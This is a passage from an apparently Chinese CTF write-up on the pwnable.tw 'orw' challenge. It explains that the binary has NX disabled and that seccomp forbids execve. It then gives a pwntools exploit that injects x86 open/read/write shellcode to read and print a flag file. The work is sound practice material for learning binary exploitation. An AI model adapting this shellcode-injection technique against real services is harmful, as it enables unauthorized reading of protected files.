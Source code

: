 ```python
int 0x80;
'''

```

#### 例题 pwnable.tw orw

题目没有开启pie、没有开启NX，程序的主要逻辑是seccomp禁用execve系统调用，输入shellcode让程序执行

直接写入orw的三个系统调用的shellcode即可

由于栈地址也是固定的，直接在shellocde后面写入flag字符串

exp：

```python
from pwn import *

r = 0
context(arch = 'i386', os = 'linux')
bss = 0x0804A040

if r == 1 :
	p = remote('',)
else:
	p = process('./orw')
#gdb.attach(p,'b *0x804858a')
p.recvuntil('shellcode:')


#fd = open('/home/orw/flag',0)
s = '''
xor edx,edx;
mov ecx,0;
mov ebx,0x804a094;
mov eax,5;
int 0x80;
'''

#read(fd,0x804a094,0x20)
s += '''
mov edx,0x40;
mov ecx,ebx;
mov ebx,eax;
mov eax,3;
int 0x80;
'''

#write(1,0x804a094,0x20)
s += '''
mov edx,0x40;
mov ebx,1;
mov eax,4
int 0x80;
'''
pd = asm(s)+b'/home/orw/flag\x00'
p.send(pd)
print p.recv()

p.interactive()
```
